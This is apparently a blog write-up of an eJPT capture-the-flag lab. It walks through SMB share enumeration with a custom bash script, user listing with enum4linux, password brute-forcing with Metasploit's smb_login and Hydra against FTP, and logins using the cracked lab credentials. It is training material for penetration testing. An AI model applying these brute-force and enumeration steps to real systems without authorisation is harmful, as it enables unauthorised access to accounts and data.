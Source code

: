 ```yaml
---
title: "eJPT - Assessment Methodologies: Enumeration CTF 1"
date: 2025-05-20 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```


The first step is to find the ip address of the target machine for that we are using this command to list the ip address form the hosts files `cat /etc/hosts`  then starting the `postgresql` for the msfconsole so that the service can run more effectively.



Before ever we starting here is the main lab environment and the question that we are have to found in that room 

### Lab Environment

A Linux machine is accessible at **target.ine.local**. Identify the services running on the machine and capture the flags. The flag is an md5 hash format.

- **Flag 1:** There is a samba share that allows anonymous access. Wonder what's in there!
- **Flag 2:** One of the samba users have a bad password. Their private share with the same name as their username is at risk!
- **Flag 3:** Follow the hint given in the previous flag to uncover this one.
- **Flag 4:** This is a warning meant to deter unauthorized users from logging in.

**Note:** The wordlists located in the following directory will be useful:

- /root/Desktop/wordlists

### Tools

- Nmap
- Metasploit
- Hydra
- enum4linux
- smbclient
- smbmap

### Questions

1. There is a samba share that allows anonymous access. Wonder what's in there!
    
2. One of the samba users have a bad password. Their private share with the same name as their username is at risk!
3. Follow the hint given in the previous flag to uncover this one.
4. This is a warning meant to deter unauthorized users from logging in.

---

### Question 1

---

Now with that lets start with the main to find the samba share which will give access to the anonymous access.

 
![alt text](/assets/img/image-1.png)


Since the modules `smb_enumshares` does not have the ability to run the custom wordlists we’ll use the bash script to run out the scan and here is the command for that

```bash
#!/bin/bash

# Obtain the target and wordlist from command-line arguments
target="$1"
wordlist="$2"

# Check if both arguments are provided
if [ -z "$target" ] || [ -z "$wordlist" ]; then
    echo "Usage: $0 <target> <wordlist>"
    exit 1
fi

# Check if the wordlist file exists
if [ ! -f "$wordlist" ]; then
    echo "Error: Wordlist file '$wordlist' not found."
    exit 1
fi

# Initialize an array to store successful shares
successful_shares=()

# Loop through each share in the wordlist
while read -r share; do
    echo -e "Testing share: \e[34m$share\e[0m"
    smbclient "//$target/$share" -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        successful_shares+=("$share")
    fi
done < "$wordlist"

# Output the results
if [ ${#successful_shares[@]} -gt 0 ]; then
    echo -e "\n\e[32m[+] Successfully accessed shares:\e[0m"
    for share in "${successful_shares[@]}"; do
        echo -e "\e[32m[+] \e[34m$share\e[0m"
    done
else
    echo -e "\e[31m[-] No accessible shares found.\e[0m"
fi

echo -e "\n[+] SMB enumeration completed."
```

Then we’ll save the files in the local machines and change the script into the executable. 

![alt text](/assets/img/image-2.png)

then running the script with the arguments of target and the share’s list which is made available by scope. and here is the command for that 

```bash
./smb_enum.sh target.ine.local /root/Desktop/wordlists/shares.txt 
```

and we found some share what worth to take a look at it! `pubfiles`



By connection using the `smbclient` we are able to find the flag1.

```bash
smbclient \\\\target.ine.local\\pubfiles
get flag1.txt
!cat flag1.txt
```

---

### Question 2

One of the samba users have a bad password. Their private share with the same name as their username is at risk!

The scope says that samba user have the bad password first let’s check the available user using the tool called `enum4linux` .

```bash
enum4linux -a target.ine.local
```

![alt text](/assets/img/image-4.png)

Here we found 4 user’s and let’s a user list for the further use of it.

![alt text](/assets/img/image-5.png)

Then as the scope is related to the login we’ll use the `smb_login` models form the `msfconsole` which we’ll give the `user_pass` the password that is generated from the  `enum4linux` user list. then for the password we’ll use the scope password given by.

 

![alt text](/assets/img/image-6.png)

```bash
use auxiliary/scanner/smb/smb_login 
set user_file user.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
set pass_file /root/Desktop/wordlists/unix_passwords.txt
run
```

after execution we found 2 user and their password for the smbshare’s and here is the list

![alt text](/assets/img/image-7.png)

```bash
josh:purple
alice:admin
```

Let’s try using the creds we found to login as them and find some information.



```bash
smbclient \\\\target.ine.local\\josh -U josh
ls
get flag2.txt
!cat flag2.txt
```

With that we found the `flag2.txt`  and here is the flag. 

FLAG2{06fb1ae898134918b11*********}

---

### Question 3

1. Follow the hint given in the previous flag to uncover this one.


<aside>
💡

Psst! I heard there is an FTP service running. Find it and check the banner.

</aside>

so now we have to focus on FTP services in his case we’ll use the hydra tool 

![alt text](/assets/img/image-9.png)

here is the command for it 

```bash
hydra -L user.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local -s 5554
```

- **`hydra`** → The tool being used for brute-force attacks.
- **`L user.txt`** → Specifies a file (`user.txt`) containing a list of usernames to try.
- **`P /root/Desktop/wordlists/unix_passwords.txt`** → Specifies a file containing a list of passwords to try.
- **`ftp://target.ine.local`** → The target service (FTP) and hostname (`target.ine.local`).
- **`s 5554`** → Specifies a custom port (`5554`) instead of the default FTP port (`21`).

![alt text](/assets/img/image-10.png)
<aside>
💡

Found: alice:pretty

</aside>

Using the Creds we logged into the ftp services and got the flag3.



```bash
ftp target.ine.local 5554
ls
get flag3.txt
!cat flag3.txt
```

FLAG3{b4b818bbc0d84a60b380*********}

---

### Question 4

The services which we didn’t look into is the `ssh` so we’ll try to login into the services after which we found out that flag is present in that banner of the SSH services hence we also found the flag4.

 

FLAG4{1631ae1d05d2446ab47*********}

with that this room comes to an end!